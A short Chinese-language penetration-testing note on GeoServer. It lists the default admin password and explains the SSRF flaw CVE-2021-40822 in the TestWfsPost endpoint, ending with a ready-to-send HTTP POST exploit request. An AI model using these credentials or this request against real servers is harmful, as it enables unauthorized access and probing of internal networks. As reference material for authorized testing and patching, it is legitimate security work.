 # 注意：测试完下面一定要看看这篇wp，试试里面的打法

参考wp：[https://blog.csdn.net/baidu_25299117/article/details/140305513](https://blog.csdn.net/baidu_25299117/article/details/140305513)

GeoServer是一款JAVA编写的、开源的、用于共享地理空间数据的软件服务器。

# 弱口令

admin/geoserver
![image](https://github.com/user-attachments/assets/05f3f95b-d5ca-492d-8b25-d478536f3839)


# CVE-2021-40822(SSRF)

影响版本：

GeoServer 2.19.3、2.18.5和2.17.6版本之前



漏洞存在于TestWfsPost接口中。攻击者可以利用`url`参数使服务器向任意URL发送请求。该接口接受以下参数：

- `url`：GeoServer将要发送请求的目标URL

- `body`：要发送的请求体内容。如果此参数为空，GeoServer将发送GET请求；如果包含任何值，则GeoServer将发送POST请求

- `username`：基础认证的用户名（可选）

- `password`：基础认证的密码（可选）



注意：`url`参数中的主机名必须与请求中的`Host`头部值相同，否则GeoServer会返回错误。例如，如果`url`参数中的主机名是`www.baidu.com`，那么请求中的`Host`头部值也必须是`www.baidu.com`。
![image](https://github.com/user-attachments/assets/941df35b-d75e-4f10-a93e-4123d8b7d409)

![image](https://github.com/user-attachments/assets/5f090742-e10e-404e-bb4a-8dc6f03e75ed)



```SQL
POST /geoserver/TestWfsPost HTTP/1.1
Host: www.baidu.com
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 96

form_hf_0=&url=http://www.baidu.com/geoserver/../&body=testtest&username=admin&password=admin
```
